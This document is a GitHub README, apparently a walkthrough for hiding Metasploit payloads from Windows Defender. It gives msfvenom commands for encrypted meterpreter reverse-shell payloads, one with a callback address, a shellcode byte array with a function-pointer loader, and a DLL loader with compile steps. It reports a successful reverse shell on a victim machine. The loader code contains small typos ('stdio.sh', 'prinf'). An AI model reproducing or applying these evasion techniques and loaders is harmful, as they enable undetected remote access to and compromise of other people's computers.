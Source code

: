 # metaploit-encrypted-payloads 
This repo documents encrypting metasploit payloads for Windows Defender evasion. This was adapted from the blog post [here](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/).

## Background
Windows defender uses two approaches, Client ML and Cloud ML. When Client ML fails to make a determination, it sends it to Cloud ML and that usually means we are screwed. Additionally, the creation of AMSI allows programs to scan data buffers in Windows Defender via API. PowerShell was modified to do this with `-Command` arguments which makes it much harder to abuse PowerShell now.

### Client ML
* Light Weight
* Hash Signatures
* Behavior Detection
* Heuristics
### Cloud ML
* Decision tree model
* Automatic Sample Submission (Configurable)
* Sample Based Analysis
* Dentenation Based Analysis

## Step 1 - Shell Code Encryption
Encryption of the shellcode a rest, generally will prevent signature based static analysis by windows defender. In my testing, I discovered that it still found encrypted meterpreter payloads indicating there is some metadata somewhere non-encrypted in the payload which is being used as a static signature. Reverse shells were found to bypass.
### Encryption Support
* AES256-CBC
* RC4
* XOR
* Base64
### Generate Encrypted Payload
```bash
# output as C to write custom loaded
ruby ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c

# output as exe for ease of use
ruby ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f exe -o encrypted.exe
```
The above payloads, once decrypted can still be detected at runtime.
## Step 2 - Seperation
Seperate the loaders and stagers. Using `windows/shell_reverse_tcp` puts stage into the loader's code so it is more likely to be detected. Always use a stager, e.g. `windows/shell/reverse_tcp` so the loader just launches the stager.
### Example With Manual Loader
```C
unsigned char shellcode[] = 
"\x69\x77\xb9\xb0\x11\xec\xc7\x98\x4d\x48\x80\xb6\x57\x51\xb6"
"\x93\x5c\x0e\x42\x18\xc1\x17\x8e\xcc\xd4\x9b\xc7\xba\xbe\x81"
"\x74\xa5\xd1\xd4\xa1\x5f\x5e\xf4\x30\x59\x68\x4b\xd2\x91\x47"
"\xb7\x90\x51\xbb\x04\x90\x7a\x04\xcd\xe2\x53\xdc\x48\x53\x11"
"\x95\x7b\xdd\xc3\x86\x81\x38\x62\xaf\x75\xd6\x29\xe6\xb7\xce"
"\x88\x04\xc3\xfe\xef\xd4\x69\xd7\x71\x7d\x52\x77\x3d\x48\x2b"
"\x34\xeb\xa0\xe6\x51\x51\xe6\x92\xda\x31\xc6\x18\x63\xb7\x7c"
"\xd3\x8f\x6a\xe7\x06\x91\x06\x95\xaf\x68\xf1\x94\x02\xea\x35"
"\xd5\x84\x09\x7d\x77\x0f\xd4\xd0\x4e\x2b\x0a\x66\xc4\x07\xb4"
"\x65\xe9\xc7\xc7\x69\x4f\x63\x7f\x5f\x7a\x73\x49\x9c\xf9\xc5"
"\x75\xab\xc5\x8d\x95\x35\x57\x56\xbd\xb8\xa7\x25\x94\x25\x82"
"\x89\x1b\xcd\xe2\xdf\xae\xa5\x69\xc9\x05\x64\xb9\x49\x81\x09"
"\xc6\x0c\x53\xc9\x98\x42\x94\x11\x64\x04\xb6\x9c\xb3\x32\xd7"
"\xb5\x25\x58\xd3\xa6\x2a\x56\xf7\x47\x43\x60\x70\xd8\x96\xfc"
"\xbf\xfe\xc2\x1d\x5b\xc5\x2f\xc6\xa0\x4d\xfc\x3d\x54\xa0\xbe"
"\x18\xbe\x83\x87\x42\x0a\x75\x97\x09\x8a\xe8\xc2\x4d\xef\x00"
"\x71\x59\xad\x5f\xef\x55\x67\x9c\xaf\x49\xf4\xe4\x3f\x7e\xe1"
"\x30\xdc\x82\xf4\x1d\xbb\x0a\x8d\x8f\xf1\xe3\x03\xd8\x34\xa6"
"\xf2\xc6\x9c\x7b\xe1\x62\xa5\xd7\x0e\xe1\x7b\xe7\x8d\x18\x3d"
"\x07\xd7\xbd\x06\xac\xd3\x37\xf5\x97\xdc\x8b\x88\xb8\x89\xc3"
"\x09\xf7\xe0\x75\x14\x8d\x01\x29\xb2\xe5\x7f\x30\xef\x15\x5e"
"\xc5\xe1\xbc\xcb\x47\x41\x1e\xde\xab\xd1\xde\xae\x33\x29\xd1"
"\x0e\xb2\x25\x80\x9e\xa1\x58\x6f\x08\x7a\xa6";

// funcptr prototype
int (*func)();

// funcptr assignment to shellcode char array
func = (int (*)()) shellcode;

// this line causes the issue with AV - The execution
(int)(*func)();
```
The above code loads the stager shell code. In testing, it was discovered this technique is detected as malicious behavior by Defender. Likely, it sees the function pointer indirection and casting as suspicious. To get around, dynamically load a DLL.
### DLL Loading Example
Using `LoadLibrary` will seem less suspicious it seems and will be allowed by Defender.
#### Shell Code
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.220.129 LPORT=443 --encrypt rc4 --encrypt-key thisisakey -f dll -o shellcode.dll
```

#### Custom Loader
```C++
#include <stdio.sh>
#include <windows.h>

int main(void)
{
	HMODULE hMod = LoadLibrary("shellcode.dll");
	if( hMod == nullptr )
	{
		prinf("Failed to load DLL\n");
	}
	
	return 0;
}
```
Compile
```bash
i686-w64-mingw32-g++ loader.cpp -o loader.exe -static-libgcc -static-libstdc++
```

### Results
These two files, `loader.exe` and `shellcode.dll` where downloaded on the victim Windows machine and were launched via the commandline and a successful reverse shell was received in `metasploit`. These techniques seem good enough for now to bypass Windows defender.